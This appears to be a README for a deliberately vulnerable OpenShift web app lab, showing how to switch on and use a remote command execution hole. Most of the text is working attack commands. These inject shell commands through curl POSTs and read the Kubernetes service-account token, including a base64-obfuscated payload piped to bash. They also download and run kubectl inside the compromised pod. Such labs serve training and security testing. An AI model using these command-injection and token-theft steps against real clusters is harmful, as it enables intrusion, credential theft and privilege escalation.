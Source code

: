 ## Attacking webapp

To activate the RCE, please set the exploit env variable to true

### Activate the RCE
```
oc -n frontend set env deployment/webapp exploit=true

export cmd="ls -la"

curl -X POST -d "cmd=${cmd}" "http://$(oc -n frontend get route/webapp --output jsonpath={.spec.host})"/posts

output: total 0
dr-xr-xr-x.   1 root root  28 Mar  8 08:50 .
dr-xr-xr-x.   1 root root  28 Mar  8 08:50 ..
dr-xr-xr-x.   2 root root   6 Aug  9  2021 afs
lrwxrwxrwx.   1 root root   7 Aug  9  2021 bin -> usr/bin
dr-xr-xr-x.   2 root root   6 Aug  9  2021 boot
drwxr-xr-x.   5 root root 360 Mar  8 08:50 dev
drwxr-xr-x.   1 root root  53 Mar  8 08:50 etc
drwxr-xr-x.   2 root root   6 Aug  9  2021 home
lrwxrwxrwx.   1 root root   7 Aug  9  2021 lib -> usr/lib
lrwxrwxrwx.   1 root root   9 Aug  9  2021 lib64 -> usr/lib64
drwxr-xr-x.   2 root root   6 Aug  9  2021 media
drwxr-xr-x.   2 root root   6 Aug  9  2021 mnt
drwxr-xr-x.   2 root root   6 Aug  9  2021 opt
dr-xr-xr-x. 229 root root   0 Mar  8 08:50 proc
dr-xr-x---.   3 root root  23 Feb 22 13:56 root
drwxr-xr-x.   1 root root  42 Mar  8 08:50 run
lrwxrwxrwx.   1 root root   8 Aug  9  2021 sbin -> usr/sbin
drwxr-xr-x.   2 root root   6 Aug  9  2021 srv
dr-xr-xr-x.  13 root root   0 Mar  1 10:33 sys
drwxrwxrwt.   2 root root   6 Aug  9  2021 tmp
drwxr-xr-x.   1 root root  17 Feb 22 13:55 usr
drwxr-xr-x.  17 root root 219 Feb 22 13:55 var
```

### Deactivate the RCE

```
oc -n frontend set env deployment/webapp exploit-

export cmd="ls -la"

curl -X POST -d "cmd=${cmd}" "http://$(oc -n frontend get route/webapp --output jsonpath={.spec.host})"/posts

exploit is not enabled
```


export cmd='token=$(cat /run/secrets/kubernetes.io/serviceaccount/token) && echo $token'

export cmd='echo dG9rZW49JChjYXQgL3J1bi9zZWNyZXRzL2t1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvdG9rZW4pICYmIGVjaG8gJHRva2VuCg== | base64 -d | bash -'

# Get visa-token
curl -X POST -d "cmd=cat /run/secrets/kubernetes.io/serviceaccount/token > /tmp/token" "http://$(oc -n frontend get route/webapp --output jsonpath={.spec.host})"/posts

# Download kubectl
curl -X POST -d "cmd=curl -L -o /tmp/kubectl https://dl.k8s.io/release/v1.27.2/bin/linux/amd64/kubectl" "http://$(oc -n frontend get route/webapp --output jsonpath={.spec.host})"/posts

# chmod +x kubectl
curl -X POST -d "cmd=chmod +x /tmp/kubectl" "http://$(oc -n frontend get route/webapp --output jsonpath={.spec.host})"/posts


command='curl -L -o /tmp/kubectl https://dl.k8s.io/release/v1.27.2/bin/linux/amd64/kubectl && chmod +x /tmp/kubectl && /tmp/kubectl get pods'
